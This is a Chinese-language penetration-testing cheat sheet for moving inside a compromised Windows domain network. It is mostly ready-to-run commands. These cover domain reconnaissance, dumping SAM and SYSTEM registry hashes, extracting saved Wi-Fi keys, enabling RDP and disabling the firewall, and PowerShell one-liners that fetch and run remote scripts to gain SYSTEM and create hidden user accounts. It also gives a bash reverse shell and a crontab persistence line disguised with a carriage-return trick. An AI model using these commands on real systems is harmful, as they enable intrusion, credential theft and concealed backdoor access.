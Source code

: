 # 内网渗透知识点总结
前期已经利用相关漏洞getshell
## 信息收集
```   
    query user || qwinsta 查看当前在线用户
    net user  查看本机用户
    net user /domain 查看域用户
    net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多
    net view /domain 查看有几个域
    net view \\\\dc   查看 dc 域内共享文件
    net group /domain 查看域里面的组
    net group "domain admins" /domain 查看域管
    net localgroup administrators /domain   /这个也是查域管，是升级为域控时，本地账户也成为域管
    net group "domain controllers" /domain 域控
    net time /domain 
    net config workstation   当前登录域 - 计算机名 - 用户名
    net use \\\\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源
    ipconfig
    systeminfo
    tasklist /svc
    tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist
    net localgroup administrators && whoami 查看当前是不是属于管理组
    netstat -ano
    nltest /dclist:xx  查看域控
    whoami /all 查看 Mandatory Label uac 级别和 sid 号
    net sessoin 查看远程连接 session (需要管理权限)
    net share     共享目录
    cmdkey /l   查看保存登陆凭证
    echo %logonserver%  查看登陆域
    spn –l administrator spn 记录
    set  环境变量
    dsquery server - 查找目录中的 AD DC/LDS 实例
    dsquery user - 查找目录中的用户
    dsquery computer 查询所有计算机名称 windows 2003
    dir /s *.exe 查找指定目录下及子目录下没隐藏文件
    arp -a
```
## 密码脱取工具 和 相关命令
### Mimikatz
命令使用:https://www.cnblogs.com/pursuitofacm/p/6704219.html?utm_source=itdadao&utm_medium=referral</br>
开启绕过:https://www.freebuf.com/articles/web/176796.html</br>
Mimikatz小实验：黄金票据+dcsync https://www.freebuf.com/sectool/112594.html</br>
### NetPass
下载https://www.nirsoft.net/utils/network_password_recovery.html</br>
### 相关命令
```
    netsh wlan show profile 	查处 wifi 名
    netsh wlan show profile WiFi-name key=clear 获取对应 wifi 的密码ie 代理
    
    reg save hklm\sam C:\hash\sam.hive
    reg save hklm\system C:\hash\system.hive  直接执行可以把windows里所有用户的hash在注册表中导出到文件里

    reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet Settings" /v ProxyServer
    reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"pac 代理相关

```
## 其他常用命令
```
    ping       icmp 连通性
    nslookup www.baidu.com vps-ip dns 连通性
    dig @vps-ip www.baidu.com
    curl vps:8080  http 连通性
    tracert bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >= 2008
    fuser -nv tcp 80 查看端口 pid
    rdesktop -u username ip linux 连接 win 远程桌面 (有可能不成功)
    where file win 查找文件是否存在 找路径，Linux 下使用命令 find -name *.jsp 来查找，Windows 下，使用 for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i
    netstat -apn | grep 8888   kill -9 PID   查看端口并 kill
```
## 远程登录主机
### 端口查看
```
    netstat -ano   没有开启 3389 端口,复查下
    tasklist /svc,查 svchost.exe 对应的 TermService 的 pid,看 netstat 相等的 pid 即 3389 端口.
```
### 注册表开启3389
```
    REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
    REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f 开启3389
    
如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许 3389 端口，命令如下:
    netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
关闭防火墙
    netsh firewall set opmode mode=disable
```
还是无法添加:    3389user http://www.91ri.org/5866.html </br>
### 创建用户(隐藏)
```
开启 sys 权限 cmd:
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'
add user 并隐藏:
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')
```
Windows 系统的帐户隐藏 ： https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/ </br>
windows 的 RDP 连接记录:    http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95 </br>

## linux bash 
```
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`bash -i
    ` 交互的 shell 
    `&` 标准错误输出到标准输出
    `/dev/tcp/10.0.0.1/8080` 建立 socket ip port
    `0>&1` 标准输入到标准输出

猥琐版
    (crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -
```
详细介绍 https://github.com/tom0li/security_circle/blob/master/15288418585142.md </br>
未完待续...
